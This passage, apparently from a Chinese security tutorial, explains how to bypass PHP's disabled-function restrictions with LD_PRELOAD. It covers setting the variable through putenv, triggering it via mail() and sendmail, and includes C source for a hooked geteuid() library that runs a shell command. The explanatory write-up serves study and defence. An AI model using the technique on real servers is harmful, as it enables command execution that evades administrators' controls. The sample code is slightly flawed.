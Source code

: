 还要php语言客户端: [fastcgi客户端PHP语言实现](http://nullget.sourceforge.net/?q=node/795&lang=zh-hans)



## LD_PRELOAD绕过



这里我们先来看一下原理，首先什么是LD_PRELOAD？

google给出如下定义

```
LD_PRELOAD is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.
```

即LD_PRELOAD这个环境变量指定路径的文件，会在其他文件被调用前，最先被调用

而putenv可以设置环境变量

```php
putenv ( string $setting ) : bool
```

添加 setting 到服务器环境变量。 环境变量仅存活于当前请求期间。 在请求结束时环境会恢复到初始状态。

那么我们可以进行一下骚操作

>1.制作一个恶意shared libraries
>2.使用putenv设置LD_PRELOAD为恶意文件路径
>3.使用某个php函数，触发specific shared library

### 利用函数

`putenv,errorlog,mail`

### 如何制作shared libraries

选择要替换的函数我们这里选取geteuid()

理由是php的mail()函数会调用系统的sendmail命令而sendmail命令会调用getuid()这个函数,所以我们确定目标为geteuid函数

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
	system("ls > result.txt");
	}
    int  geteuid() {
    if (getenv("LD_PRELOAD") == NULL) 
    { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
  	}
```
